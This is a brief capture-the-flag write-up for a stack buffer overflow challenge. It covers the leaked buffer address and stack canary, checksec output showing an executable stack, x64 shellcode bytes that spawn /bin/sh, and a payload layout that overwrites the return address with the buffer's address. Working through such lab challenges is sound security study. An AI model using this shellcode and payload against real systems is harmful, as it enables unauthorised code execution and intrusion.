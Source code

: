 **Read source code**
- We can see there the program leak the address of buf, distance between buf and $rbp, also canary
- `read`,`gets` => Buffer overflow
- Stack
```
Buf
canary (rbp-0x8)
rbp
ret (rbp+0x0)
```
- `Checksec` in gdb
```
Arch:     amd64
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX unknown - GNU_STACK missing
PIE:        PIE enabled
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
```
- So the idea is that store the shellcode into `buf` and return adress of buff.
---  
***PWNTOOLS***
- shellcode for x64 `\x48\x31\xFF\x57\x48\xBF\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x57\x48\x31\xF6\x48\x31\xD2\x48\x89\xE7\x48\x31\xC0\x48\x83\xC0\x3B\x0F\x05`
- leak canary: overflow to rbp-0x8
- payload = shellcode + (offset from buff to canary - len(shellcode)) +canary + b'a'*0x8 + buf

